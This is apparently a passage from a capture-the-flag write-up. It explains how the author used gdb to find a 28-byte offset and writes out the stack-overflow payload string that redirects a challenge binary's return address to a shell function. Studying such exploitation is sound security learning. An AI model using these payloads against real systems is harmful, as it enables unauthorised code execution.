

I couldn't do it without source code, so i look at this:

In gdb i watched the stack all times with different strings and offset like `("A"*12 +"\x01\n")*offset` and then i calculated the offset. It equals to 28 for setting return address to shell function address. But we need to put first characters of the strings. So it looks like `("A"*12 + "\x01\n" + "B"*12 + "\x01\n" + "C"*12 + "\x01\n" + "D" + "\x01\n")*6 + "A"*12 + "\x01\n" + "B"*12 + "\x01\n" + "C"*12 + "\x01\n" + "D"*12 + "\x09\n"`:

